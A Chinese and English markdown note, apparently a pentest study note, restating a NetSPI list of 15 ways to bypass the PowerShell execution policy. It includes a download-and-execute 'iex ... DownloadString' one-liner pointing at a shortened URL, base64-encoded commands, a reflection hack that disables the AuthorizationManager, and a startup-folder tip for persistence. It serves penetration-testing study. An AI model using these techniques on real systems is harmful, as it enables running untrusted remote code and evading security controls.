 # Powershell
## 特点
Native to Windows
Able to call the Windows API
Able to run commands without writing to the disk
Able to avoid detection by Anti-virus
Already flagged as “trusted” by most application white list solutions
A medium used to write many open source Pentest toolkits

## 15种绕过 powershell 执行策略的方法
> source：https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/


默认情况下，windows中的ps1文件是不允许执行的。这里列示了15种可以绕过windows执行策略的方案，而不需要具有local administrator 权限。

查看执行权限可以使用命令 `Get-Excecution -List`  或`Get-ExecutionPolicy -List | Format-Table -AutoSize`, 默认都是Restricted。重要的一点是，这一设置并与意味着某种安全控制，它只是防止administrator误操作的一种办法。这也是为什么可以有方法可以绕过此策略。

假设我们想执行的语句为 `Write-Host "My voice is my passport, verify me."` ，它被写入了 .\runme.ps1。

直接在命令行上运行会报错：“cannot be loaded...”

下面尝试绕过：

### 直接拷贝脚本中命令到控制台运行

`PS c:\users\ss> Write-Host "My voice is my passport, verify me."`

### 使用`Echo`

```
Echo Write-Host "My voice is my passport, verify me." | PowerShell.exe -noprofile -
```
这种技术，不会导致配置变化或写磁盘操作。

### 从文件读取并通过管道传给ps标准输入

```
Get-Content .runme.ps1 | PowerShell.exe -noprofile -

TYPE .runme.ps1 | PowerShell.exe -noprofile -
```


这种技术，不会导致配置变化或写磁盘操作。还可以从网络共享位置读取文件，而不写磁盘。
### 从url下载脚本并使用invoke表达式执行

这个技术从网上下载脚本并执行，也不写磁盘，不导致配置改变。很有用的技术。

```
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
```

iex开启了一个invoke表达式，


### 使用命令切换

这个技术很类似于拷贝粘贴执行一个脚本，但是它可以在没有交互下完成。简单命令可以顺利使用，复杂脚本可能会报错。

```
Powershell -command "Write-Host 'My voice is my passport, verify me.'"

Powershell -c "Write-Host 'My voice is my passport, verify me.'"
```

值得注意的是，你可以将他们放在批处理文件中，置于all users 的 startup 文件夹下，这样可以达到权限提升作用。

### 使用编码swith `-Enc` 或 `-EncodedCommand`

所有脚本可以通过unicode/base64编码后执行，这样可以避免不小心粘贴错误。这个技术也不会影响配置或写磁盘。

下面的例子使用了Posh-SecMod工具，它可以压缩编码命令大小。

```
$command = "Write-Host 'My voice is my passport, verify me.'" ; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) ; $encodedCommand = [Convert]::ToBase64String($bytes) ; powershell.exe -EncodedCommand $encodedCommand;
```

上面的 $encodedCommand 为：`VwByAGkAdABlAC0ASABvAHMAdAAgACcATQB5ACAAdgBvAGkAYwBlACAAaQBzACAAbQB5ACAAcABhAHMAcwBwAG8AcgB0ACwAIAB2AGUAcgBpAGYAeQAgAG0AZQAuACcA`

例2，使用编码字符串短命令

```
powershell.exe -Enc VwByAGkAdABlAC0ASABvAHMAdAAgACcATQB5ACAAdgBvAGkAYwBlACAAaQBzACAAbQB5ACAAcABhAHMAcwBwAG8AcgB0ACwAIAB2AGUAcgBpAGYAeQAgAG0AZQAuACcA
```

### 使用 invoke-command 命令

这是一种有趣的方式。它典型的执行是通过一个交互的ps console或使用command swith的一行命令，但非常酷的是它可用于执行于远程系统执行命令。这个技术也不会变更配置和写磁盘。

```
invoke-command -scriptblock {Write-Host "My voice is my passport, verify me."}

invoke-command -computername Server01 -scriptblock {get-executionpolicy} | set-executionpolicy -force
```

### 使用 invoke-Expression 命令

这是有一个用于交互shell控制台执行或一行命令的方法。这个技术也不会变更配置和写磁盘。

Example 1: Full command using Get-Content

`Get-Content .runme.ps1 | Invoke-Expression`

Example 2: Short command using Get-Content

`GC .runme.ps1 | iex`

### 使用 Bypass 执行策略flag
When this Bypass flag is used Microsoft states that “Nothing is blocked and there are no warnings or prompts”. This technique does not result in a configuration change or require writing to disk.

`PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1`


### 使用 ‘Unrestricted’ 执行策略flag
This similar to the “Bypass” flag. However, when this flag is used Microsoft states that it “Loads all configuration files and runs all scripts. If you run an unsigned script that was downloaded from the Internet, you are prompted for permission before it runs.” This technique does not result in a configuration change or require writing to disk.

`PowerShell.exe -ExecutionPolicy UnRestricted -File .runme.ps1`

### 使用 “Remote-Signed” Execution Policy Flag
`PowerShell.exe -ExecutionPolicy Remote-signed -File .runme.ps1`

### Disable ExecutionPolicy by Swapping out the AuthorizationManager

This is really creative one I came across on http://www.nivot.org. The function below can be executed via an interactive PowerShell console or by using the “command” switch. Once the function is called it will swap out the “AuthorizationManager” with null. As a result, the execution policy is essentially set to unrestricted for the remainder of the session. This technique does not result in a persistant configuration change or require writing to disk. However, it the change will be applied for the duration of the session.

```
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))}  Disable-ExecutionPolicy  .runme.ps1
```

### 为进程scope设置执行策略

As we saw in the introduction, the execution policy can be applied at many levels. This includes the process which you have control over. Using this technique the execution policy can be set to unrestricted for the duration of your Session. Also, it does not result in a configuration change, or require writing to the disk. I originally found this technique on the r007break blog.

`Set-ExecutionPolicy Bypass -Scope Process`

### 为CurrentUser Scope 设置 ExcutionPolicy

This option is similar to the process scope, but applies the setting to the current user’s environment persistently by modifying a registry key. Also, it does not result in a configuration change, or require writing to the disk. I originally found this technique on the r007break blog

`Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted`

### Set the ExcutionPolicy for the CurrentUser Scope via the Registry
In this example I’ve shown how to change the execution policy for the current user’s environment persistently by modifying a registry key directly.

`HKEY_CURRENT_USER\Software\MicrosoftPowerShell\1\ShellIds\Microsoft.PowerShell`